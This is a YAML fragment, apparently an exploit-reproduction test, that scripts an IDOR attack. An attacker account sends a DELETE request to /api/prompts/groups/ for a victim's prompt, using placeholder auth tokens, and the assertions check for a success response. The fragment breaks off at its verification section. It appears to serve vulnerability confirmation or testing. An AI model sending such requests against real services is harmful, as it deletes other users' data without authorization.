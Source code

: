 ```yaml
  exploit_scenario:
    name: Attacker (User B) deletes Victim's (User A) prompt via IDOR
    # No scenario-specific setup/teardown needed for this example
    steps:
      - step: 1
        dsl: "When 'attacker_user' sends a DELETE request to delete 'victim_prompt'"
        action:
          type: http_request
          # Use the attacker's context for authentication
          authentication_context: "attacker_user"
          request:
            method: DELETE
            # Construct URL using context variables
            url: "{{ context.environment.target_base_url.value }}/api/prompts/groups/{{ context.resources.victim_prompt.identifier }}"
            headers:
              # Headers copied from the report, using placeholders for auth tokens
              # Assumes credential resolver provides .cookie and .bearer_token fields
              Host: "{{ context.environment.target_host.value }}"
              Cookie: "refreshToken={{ context.users.attacker_user.credentials.cookie }}" # Placeholder resolved externally
              Sec-Ch-Ua: "\"Not;A=Brand\";v=\"24\", \"Chromium\";v=\"128\""
              Accept: "application/json, text/plain, */*"
              Accept-Language: "en-US,en;q=0.9"
              Sec-Ch-Ua-Mobile: "?0"
              Authorization: "Bearer {{ context.users.attacker_user.credentials.bearer_token }}" # Placeholder resolved externally
              User-Agent: "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36"
              Sec-Ch-Ua-Platform: "\"Windows\""
              Origin: "{{ context.environment.target_base_url.value }}"
              Sec-Fetch-Site: "same-origin"
              Sec-Fetch-Mode: "cors"
              Sec-Fetch-Dest: "empty"
              Referer: "{{ context.environment.target_base_url.value }}/d/prompts/some_referer_id" # Referer from example
              Accept-Encoding: "gzip, deflate, br"
              Priority: "u=1, i"
            body: null # No body expected for this DELETE

  # Immediate assertions after the exploit request
  assertions:
    - step: 1
      dsl: "Then the server should respond with HTTP status 200 OK indicating the delete operation was accepted"
      check:
        type: http_response_status
        expected_status: 200

    - step: 2
      dsl: "And the response body should contain the success message"
      check:
        type: http_response_body
        # Using json_path to be more specific than just 'contains'
        json_path:
          path: "$.promptGroup"
          value: "Prompt group deleted successfully"
        # Alternative check:
        # equals_json: '{"promptGroup":"Prompt group deleted successfully"}'

  # Optional verification steps to confirm impact
  verification:
    - step: 1
```